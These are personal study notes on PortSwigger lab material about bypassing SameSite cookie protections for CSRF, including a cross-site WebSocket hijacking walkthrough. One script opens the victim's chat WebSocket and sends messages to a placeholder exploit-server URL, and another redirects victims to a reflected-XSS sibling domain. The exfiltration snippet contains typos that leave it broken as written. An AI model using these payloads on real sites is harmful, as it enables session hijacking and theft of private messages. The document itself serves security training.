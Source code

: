
2024-07-24 15:01

Source: #portswigger #web 

Tags: [[CSRF]] [[SameSite cookie]] 

### Bypassing SameSite Lax restrictions using GET requests

If servers also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a `GET` request from the victim's browser. 
As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. 

Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, `Symfony` supports the `_method `parameter in forms, which takes precedence over the normal method for routing purposes

### Bypassing SameSite restrictions using on-site gadgets

- If a cookie is set with the` SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site. 
- One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.
- Note that the equivalent attack is not possible with server-side redirects. 
If the site is redirecting then find a script that is doing the redirect, study the script, find a parameter that we can manipulate, then do directory traversal 

### Bypassing SameSite restrictions via vulnerable sibling domains

In addition to classic `CSRF`, don't forget that if the target website supports `WebSockets`, this functionality might be vulnerable to cross-site WebSocket hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. 
##### Lab:
in the lab we have a chat feature that uses websockets, when capturing the request on burp we see that we send a ready message and the websocket server responds with the entire chat history that is tied to our session cookie
in http history find a response that mentions switching protocol in that corresponding request check if the request contains all the points for it to be CSRF vulnerable. 
###### samesite: None
 
with no restrictions we can add the following script on our website 
once the victim has visited the page we see that we can see the chat message from our victim now but because of the same site equals strict session cookie restriction we're only seeing chat messages or the chat message for a new chat session.

```
<script>
var webSocket = new WebSocket("lab-url/chat");

webSocket.onopen = function(evt){
	webSocket.send("READY");
};

webSocket.onmessage = function(evt){
	var message = evt.data;
	fetch("exploit-server-url/exploit?message=")+btao(message);
};
</script>
```
###### samesite: Strict

- If our application was something like a Blog I would look for the comments section and I would check whether the any of the fields in the comment section are vulnerable to a stored cross-site scripting attack because that way we could store our payload in there and send our victim a link to the post that includes our payload that we injected through cross-site scripting
- but our application is just a product page 

- we see for request with `chat.js` for example we can see that the response header `Access-Control-allow-origin` here reveals an additional sibling domain and it's hosted on the same main domain
- If there was a stored cross-site scripting or reflected cross-site scripting vulnerability within this endpoint it would still honor the same site restriction
- since there is a reflected xss vuln on the new domain 
- we see that the login (new domain) endpoint also accepts our payload as a get request
- the payload we used in `samesite: None` can be used on the new domain
- we url encode the whole payload and add it to the url of the new domain 
- when crafting the payload on the exploit server we write
```
<script>
	document.location="newdomain-url/urlencoded-payload";
</script>
```

#### Bypassing SameSite Lax restrictions with newly issued cookies

If a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies Lax restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

This two-minute window does not apply to cookies that were explicitly set with the `SameSite=Lax` attribute.

It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack. For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site. 

 To trigger the cookie refresh without the victim having to manually log in again, you need to use a top-level navigation, which ensures that the cookies associated with their current OAuth session are included. This poses an additional challenge because you then need to redirect the user back to your site so that you can launch the CSRF attack.

Alternatively, you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default:
```
window.open('https://vulnerable-website.com/login/sso');
```

To get around this, you can wrap the statement in an onclick event handler as follows:
```
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page. 


### References
